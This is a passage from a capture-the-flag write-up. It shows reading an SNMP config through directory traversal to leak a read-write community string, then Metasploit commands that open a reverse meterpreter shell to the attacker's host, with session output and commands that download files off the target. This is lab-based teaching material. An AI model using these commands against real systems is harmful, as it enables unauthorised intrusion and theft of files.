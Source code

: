 However this doesn't really help. To find out the private community string that we need, we can read the config file, and since we have directory traversal we can read this config file. The path is `/etc/snmp/snmpd.conf`, and after reading this file, we find this:

```text
rocommunity public  default    -V systemonly
rwcommunity SuP3RPrivCom90
```

#### Getting RCE

The first is our `public` community string, which we used to read data before \(`ro`, read-only\). The second is a private community string, which has read AND write permissions \(`rw`\). So, now that we've acquired the private community string, we can now get rce. I used the metasploit module `exploit/linux/snmp/net_snmpd_rw_access` for this, but you can also do this [manually](https://medium.com/rangeforce/snmp-arbitrary-command-execution-19a6088c888e). However, I found that the metasploit method is very inconsistent, and only worked once per reset

For the metasploit method, I just used these commands:

```text
use exploit/linux/snmp/net_snmpd_rw_access
set community SuP3RPrivCom90
set rhosts 10.10.10.195
set lhost tun0
set lport 6666
exploit
```

And then you get a `meterpreter` shell. You might have to manually interact with the session after running it:

```text
[*] Sending stage (989416 bytes) to 10.10.10.195
[*] Meterpreter session 1 opened (10.10.14.169:6666 -> 10.10.10.195:40020) at 2020-11-12 17:24:47 +0000
[-] Exploit failed: SNMP::RequestTimeout host 10.10.10.195 not responding
[*] Exploit completed, but no session was created.
msf5 exploit(linux/snmp/net_snmpd_rw_access) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >
```

And now we have a shell!

### Root

#### Setup

**Getting required files**

Using this shell, we can now actually get the `note_server`, and it's libc + interpreter:

```text
download /home/user/note_server            <-- binary
download /home/user/note_server.c        <-- source code
download /lib/x86_64-linux-gnu/libc-2.27.so    <-- libc
download /lib/x86_64-linux-gnu/ld-2.27.so    <-- interpreter
```
